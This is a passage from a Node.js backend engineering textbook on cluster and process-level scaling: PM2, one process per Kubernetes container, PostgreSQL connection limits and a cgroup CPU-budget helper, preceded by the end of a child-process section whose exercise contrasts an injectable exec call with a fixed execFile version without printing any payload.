5. *Worker thread or child process for `ffmpeg`?* Expected: child process — it is not JavaScript, and you want a separate crash and memory domain.
6. *How do you shut down cleanly with children running?* Expected: on `SIGTERM`, stop accepting work, signal children, wait with a deadline, escalate to `SIGKILL`, then exit within the grace period.

#### Practical exercise

Write a service endpoint that converts an uploaded image with `ffmpeg`. Implement it first with `exec` and a template literal, and demonstrate injection with a crafted filename in a **local sandbox only**. Then rewrite with `execFile` plus an allowlist and confirm the attack fails. Add a 10-second timeout with `SIGTERM` then `SIGKILL` escalation, and prove it by running a deliberately long conversion.

Acceptance criteria: evidence of the injection in the vulnerable version and its failure in the fixed one; a demonstration that output larger than 1 MB kills the `exec` version and streams fine with `spawn`; and a shutdown test showing no orphaned `ffmpeg` process remains after the parent exits.

## 9.22 Cluster and process-level scaling

#### Concept

The `cluster` module forks N copies of your Node process — one per CPU core, typically — and lets them share a single listening port. Incoming connections are distributed across the workers, so a machine with 8 cores runs 8 event loops instead of 1.

The mechanism has two variants. In the default **round-robin** mode on Linux, the primary process owns the listening socket, calls `accept()` and hands each connection descriptor to a worker over IPC. In `SCHED_NONE` mode (and natively on Windows), all workers share the listening socket and the kernel wakes one. Modern kernels also offer **`SO_REUSEPORT`**, where each worker opens its *own* listening socket on the same port and the kernel hashes the connection's 4-tuple to pick one — which avoids both the primary bottleneck and the "thundering herd" of every worker waking for one connection.

**PM2** is the popular process manager that wraps this: `pm2 start dist/main.js -i max` runs cluster mode with restarts, log aggregation and zero-downtime reloads.

#### Why does it exist?

One Node process uses one core for JavaScript. On a bare 16-core server, that wastes 15 cores. Before containers were the default deployment unit, `cluster` was the answer: one machine, one port, N processes.

#### Mental model

Imagine a shop with one till and a queue out of the door. `cluster` opens seven more tills in the same shop, with one manager directing customers to whichever till is free. Kubernetes replicas are different: seven separate shops, each with its own till, and a sign outside directing customers between shops. The second arrangement is more robust — a fire in one shop does not close the others — and it is the one the modern world is built around.

#### How it works



1. The primary calls `cluster.fork()` N times. Each worker is a full Node process with its own heap, event loop, libuv pool and connection pools.
2. The primary binds the port and accepts connections; round-robin hands each new connection's descriptor to a worker.
3. Workers do not share memory. An in-process cache in worker 3 is invisible to worker 5. Any shared state must go to Redis or PostgreSQL.
4. If a worker dies, the primary is notified and can fork a replacement.

```ts
// cluster-example.ts - the shape, for a VM deployment
import cluster from 'node:cluster';
import { cpus } from 'node:os';

if (cluster.isPrimary) {
  const n = cpus().length;
  for (let i = 0; i < n; i++) cluster.fork();
  cluster.on('exit', (worker, code, signal) => {
    console.error(`worker ${worker.process.pid} died (${signal ?? code}); forking replacement`);
    cluster.fork();          // supervise, or a crash loop silently reduces capacity
  });
} else {
  await bootstrap();          // your normal NestFactory.create + listen
}
```

#### The production point: one process per container

**In Kubernetes, run one Node process per container and let replicas do the scaling.** This is the default you should need a specific reason to deviate from. The reasoning:

- **The scheduler already does this.** A pod with `limits.cpu: 1` gets one core's worth of CFS quota. Running 4 cluster workers inside it means 4 event loops splitting one core, with more context switching and no more throughput.
- **Restart granularity.** A crashing worker inside a container is invisible to Kubernetes: the pod stays `Running` while capacity quietly halves. A crashing *pod* is visible, restarted, counted in metrics, and eventually escalates to `CrashLoopBackOff` where a human is alerted.
- **Health checks.** A liveness probe hits one port. With cluster, the probe may be served by a healthy worker while another is wedged, so the pod passes while a quarter of requests fail.
- **Memory budgeting.** Four workers times 512 MB of heap in a 1 GiB pod is an OOMKill waiting to happen. One process, one `--max-old-space-size`, one number to reason about (9.26).
- **Connection multiplication.** Each worker opens its own PostgreSQL pool. 4 workers times 20 connections times 10 pods is 800 connections; PostgreSQL's default `max_connections` is 100.
- **Observability.** Metrics, profiles, heap snapshots and `--inspect` are per-process. Cluster mode means aggregating four sets of everything, and `prom-client` needs the extra `AggregatorRegistry` plumbing to report correctly.
- **Rolling updates and graceful shutdown** already work per pod. Doing it per worker as well is a second, buggier implementation of the same thing.

The exceptions, where cluster or PM2 still earns its place:

- **Bare VMs or on-premises servers** with no orchestrator: one 16-core box, one port. Cluster is exactly right.
- **A pod deliberately given several cores** (`limits.cpu: 4`) for a workload where per-pod overhead is high — a large in-process cache, an expensive warm-up, a big model loaded into memory — so that duplicating the *pod* would waste far more memory than duplicating the process. Here 4 workers sharing one warm cache in one pod can be the cheaper shape.
- **Legacy platforms** (Elastic Beanstalk, a single EC2 instance behind an ALB) where the deployment unit is a machine.
- **Local development** on a many-core laptop for load testing.

If you do run multiple processes per container, set `limits.cpu` to at least the worker count, size each worker's heap so the total fits the memory limit with room to spare, use PM2 or a supervisor that exits the container when a worker cannot be restarted, and make the health check aggregate across workers.

#### NestJS example

A clean cluster bootstrap that respects graceful shutdown and does not fight Kubernetes:

```ts
// main-cluster.ts - only used on VM deployments
import cluster from 'node:cluster';
import { cpus } from 'node:os';
import { NestFactory } from '@nestjs/core';
import { AppModule } from './app.module';

const WORKERS = Number(process.env.WEB_CONCURRENCY ?? cpus().length);

async function bootstrapWorker() {
  const app = await NestFactory.create(AppModule);
  app.enableShutdownHooks();                 // onModuleDestroy runs on SIGTERM
  const server = await app.listen(3000);
  server.keepAliveTimeout = 65_000;

  process.on('SIGTERM', async () => {
    await app.close();                       // stop accepting, drain in-flight, close pools
    process.exit(0);
  });
}

if (cluster.isPrimary && WORKERS > 1) {
  let shuttingDown = false;
  for (let i = 0; i < WORKERS; i++) cluster.fork();

  cluster.on('exit', (worker, code, signal) => {
    if (shuttingDown) return;
    if (code === 0) return;                                  // deliberate exit
    setTimeout(() => cluster.fork(), 1_000).unref();          // delay: avoid a hot restart loop
  });

  process.on('SIGTERM', () => {
    shuttingDown = true;
    for (const w of Object.values(cluster.workers ?? {})) w?.process.kill('SIGTERM');
  });
} else {
  void bootstrapWorker();
}
```

Two things this gets right that most examples get wrong: a **delay** before re-forking (an immediate re-fork on a startup crash spins the CPU at 100% forever), and propagating `SIGTERM` to workers so in-flight requests drain.

#### PostgreSQL example

The connection arithmetic that kills clustered deployments:

```sql
-- What the database sees
SELECT count(*) AS conns, state FROM pg_stat_activity GROUP BY state;
--  conns | state
--    780 | idle
--     14 | active
SHOW max_connections;   -- 500
-- FATAL: sorry, too many clients already
```

Each PostgreSQL connection costs roughly 5 to 10 MB of backend memory and a process. The formula you must be able to do in your head:

```text
total connections = pods x processes-per-pod x pool size (+ 1 per process for migrations/health)
10 pods x 4 workers x 20 = 800   -- refused
10 pods x 1 process x 15 = 150   -- fine, and PgBouncer makes it 25 server-side
```

One process per pod turns a four-way multiplication into a three-way one. Put PgBouncer in transaction mode in front of the database and the number stops mattering at all (see Part 18 — PostgreSQL Internals).

#### Production scenario

A team moved a NestJS API from EC2 (PM2 cluster mode, 8 workers on a 8-vCPU instance) to Kubernetes and kept `pm2-runtime start -i max` in the Dockerfile. Pods had `limits.cpu: 1`. PM2 read the *node's* CPU count — 64, on a large instance type — and forked **64 workers into a 1-core, 2 GiB pod**.

Symptoms: startup took 4 minutes, RSS sat at 1.9 GiB, every request was slow, PostgreSQL hit `max_connections`, and CPU throttling was at 90%. The metrics showed low CPU *usage* (the pod was throttled, not busy), which sent the investigation in the wrong direction for two hours.

The fix was deleting PM2 from the image: `CMD ["node", "dist/main.js"]`, `replicas: 8`, `limits.cpu: 1`, `--max-old-space-size=1536`, pool size 15. Latency p99 fell from 2.1 s to 60 ms and the monthly bill dropped, because the cluster version had been paying for throttled, oversubscribed pods.

The trap generalises: **`os.cpus().length` inside a container returns the host's core count, not your CPU limit.** Anything that auto-sizes from it — PM2, thread pools, `piscina` defaults — will over-provision wildly. Read the cgroup quota instead, or set an explicit environment variable.

```ts
// util/cpu-budget.ts - honest CPU count inside a container
import { readFileSync } from 'node:fs';
import { cpus } from 'node:os';

export function cpuBudget(): number {
  if (process.env.CPU_LIMIT) return Number(process.env.CPU_LIMIT);
  try {
    // cgroup v2: "max 100000" (unlimited) or "100000 100000" (1 core)
    const [quota, period] = readFileSync('/sys/fs/cgroup/cpu.max', 'utf8').trim().split(' ');
    if (quota !== 'max') return Math.max(1, Math.floor(Number(quota) / Number(period)));
  } catch { /* not in a cgroup v2 container */ }
  return cpus().length;
}
```

#### Failure scenario

At 21:00 a checkout service on PM2 cluster mode started returning 500s for about 12% of requests while all health checks were green and the dashboard showed the process "online".

One of the 8 workers had an unhandled exception in a startup path and was crashing on its first request. PM2's restart counter incremented, PM2 restarted it, it crashed again, and the loop continued at hundreds of restarts per minute — but the *container* stayed up and the load balancer kept the pod in service. One eighth of connections was routed to a worker that was always in the process of dying. The alert that eventually fired was a customer complaint.

With one process per pod, the same bug produces a `CrashLoopBackOff` pod that fails its readiness probe, is removed from the Service endpoints within seconds, and pages someone. The difference is not the bug; it is the **visibility of the failure**, and that is the strongest argument for one process per container.

#### Edge cases & failure modes

- `os.cpus().length` reports host cores, not the container's CPU limit. Everything that auto-sizes from it over-provisions.
- Cluster workers share no memory: in-process caches, rate-limit counters and WebSocket connection maps become inconsistent per worker. Move them to Redis.
- Sticky sessions do not exist across workers by default; a WebSocket upgrade may land on a different worker from the one holding state.
- Round-robin distributes *connections*, not *requests*. With HTTP keep-alive, one long-lived connection sends thousands of requests to the same worker, so load can be badly skewed.
- A worker blocked by a synchronous 5-second operation is still routed connections; nothing detects it.
- `prom-client` needs `AggregatorRegistry` for cluster mode, or `/metrics` reports whichever worker answered.
- Graceful shutdown must be implemented in both the primary and every worker, or `SIGTERM` kills in-flight requests.
- An immediate re-fork on a startup crash burns 100% CPU forever; always back off.
- `SO_REUSEPORT` avoids the primary bottleneck but distributes by 4-tuple hash, so distribution can be uneven with few clients.

#### How a Senior Backend Engineer thinks about this

They ask what the deployment unit is. On Kubernetes: one process per container, scale with replicas, and treat any suggestion of cluster mode as needing a written justification. On a VM: cluster, sized to cores, with supervision and back-off. They know the connection arithmetic before proposing a topology, and they never let a library auto-size from `os.cpus()` inside a container.

Above all, they optimise for *visible* failure. A design where a broken worker is invisible to the orchestrator is a design that turns a five-minute incident into a two-hour one.

To a product manager: "We run one copy of the app per box, and add boxes when we need capacity. That way, when one breaks, the system notices and replaces it automatically."

#### Common mistakes

- Keeping PM2 cluster mode after moving to Kubernetes.
- Sizing workers from `os.cpus()` inside a container.
- In-memory caches and rate limiters in a clustered app, giving N inconsistent copies.
- No back-off on re-fork.
- Forgetting that each worker multiplies database connections.
- Health checks that pass while a sibling worker is crash-looping.

#### Interview questions

1. *How does `cluster` share a port across processes?* Expected: the primary owns the listening socket and passes accepted connection descriptors over IPC (round-robin), or workers share the socket / use `SO_REUSEPORT`.
2. *Why is one process per container the norm in Kubernetes?* Expected: the orchestrator already schedules by core; restart granularity, health-check accuracy, memory budgeting, connection counts and per-process observability all improve.
3. *When would you still use cluster or PM2?* Expected: bare VMs, multi-core pods where per-process warm-up or cache memory is expensive to duplicate, legacy platforms.
4. *A pod with `limits.cpu: 1` runs PM2 with `-i max` and is slow. Explain.* Expected: `os.cpus()` reports host cores; dozens of workers oversubscribe one core's quota, causing throttling and memory pressure.
5. *How many database connections does 10 pods x 4 workers x pool 20 make, and what breaks?* Expected: 800; PostgreSQL refuses past `max_connections`, each backend costs memory; fix with fewer processes or PgBouncer.
6. *Your clustered app returns errors for 1/8 of requests but health checks are green. What is happening?* Expected: one worker crash-looping invisibly behind a healthy pod; argue for per-pod processes.

#### Practical exercise

Deploy the same NestJS app two ways: (a) one pod with `limits.cpu: 4` running cluster with 4 workers, and (b) 4 pods with `limits.cpu: 1` each running one process. Load both with the same profile and compare p50/p99, total PostgreSQL connections, and behaviour when you inject a crash into one worker or pod. Then set `limits.cpu: 1` on the clustered pod without changing the worker count and measure the CPU throttling metric.

Acceptance criteria: a comparison table of latency, connection count and recovery time; documented evidence of how long each setup takes to remove a broken instance from service; and a demonstration that `os.cpus().length` inside the container does not match the CPU limit, with `cpuBudget()` returning the correct number.
